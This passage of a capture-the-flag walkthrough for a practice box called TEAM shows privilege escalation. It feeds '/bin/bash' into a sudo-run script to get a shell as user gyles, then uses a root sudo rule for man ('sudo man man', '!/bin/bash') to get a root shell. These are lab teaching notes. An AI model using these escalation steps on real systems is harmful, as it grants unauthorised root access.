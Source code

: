 Where the script asks for `date` if you supply it with `/bin/bash` This will spawn a bash shell. Due to the fact that we have ran this as the `gyles` this bash shell will belong to him

```bash
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: anon
Enter 'date' to timestamp the file: /bin/bash
The Date is id
uid=1001(gyles) gid=1003(editors) groups=1003(editors)
```
No we have a shell as gyles! Although this shell is quite basic.

---
## Root Priv Esc

This shell is quite resrictive due to it being launched from the script.

After enumeration I found `sudo -l`1 reveal the following
```bash
sudo -l
Matching Defaults entries for gyles on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gyles may run the following commands on TEAM:
    (root) NOPASSWD: /usr/bin/man
```
Gyles can run `man` as root. This can lead to privilege escalation as man can spawn a shell like so

```bash
sudo man man

!/bin/bash
```
You now have a root shell on the box.

I really hope you enjoyed my box!
